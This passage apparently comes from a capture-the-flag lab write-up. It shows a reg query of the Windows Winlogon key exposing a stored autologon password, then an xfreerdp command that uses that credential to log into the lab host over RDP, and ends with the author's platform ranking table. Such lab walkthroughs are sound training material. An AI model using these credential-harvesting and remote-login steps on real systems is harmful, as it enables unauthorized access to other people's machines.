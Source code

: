 ```bash
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192     
```



```bash
C:\Users\hugo\Desktop>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

<img width="1239" height="756" alt="image" src="https://github.com/user-attachments/assets/a50d4e26-6890-4204-aaa7-3eb4b33eb092" />

```bash
    DefaultUserName    REG_SZ    hugo
    DefaultPassword    REG_SZ    SurpriseMF123!
```

<br>
<br>

```bash
:~/AVenger# xfreerdp /v:10.10.51.22 /u:hugo /p:SurpriseMF123! /dynamic-resolution
...

```

<img width="1537" height="843" alt="image" src="https://github.com/user-attachments/assets/2708f5f8-ab23-470e-84b3-370b906dd794" />

<img width="1531" height="808" alt="image" src="https://github.com/user-attachments/assets/1e784d1e-af8d-468e-944d-c7f6ec6acbc4" />


<br>
<br>
<br>

<img width="1911" height="889" alt="image" src="https://github.com/user-attachments/assets/fdbbef5f-9104-43f2-9daa-901d65698514" />

<img width="1905" height="899" alt="image" src="https://github.com/user-attachments/assets/9a411884-df0a-495c-97f2-f4f5b5b6eade" />


<br>

<div align="center">

| Date              | Streak   | All Time     | All Time     | Monthly     | Monthly    | Points   | Rooms     | Badges    |
| :---------------: | :------: | :----------: | :----------: | :---------: | :--------: | :------  | :-------: | :-------: |
|                   |          |    Global    |    Brazil    |    Global   |   Brazil   |          | Completed |           |
| July 20, 2025     | 440      |     153ʳᵈ    |      5ᵗʰ     |    181st    |     7ᵗʰ    | 115,811 |    869    |    72     |
